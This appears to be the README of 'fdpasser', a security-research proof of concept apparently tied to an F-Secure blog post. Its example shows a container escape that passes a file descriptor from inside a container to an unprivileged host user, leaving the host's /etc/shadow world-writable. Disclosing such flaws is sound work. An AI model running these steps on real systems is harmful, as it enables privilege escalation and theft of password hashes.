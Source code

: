 # What is this?
Read the F-Secure Blog: (TODO)

# Build
```
make
```

# Example
```
In container, as root: ./fdpasser recv /moo /etc/shadow
Outside container, as UID 1000: ./fdpasser send /proc/$(pgrep -f "sleep 1337")/root/moo
Outside container: ls -la /etc/shadow
Output: -rwsrwsrwx 1 root shadow 1209 Oct 10  2019 /etc/shadow
```
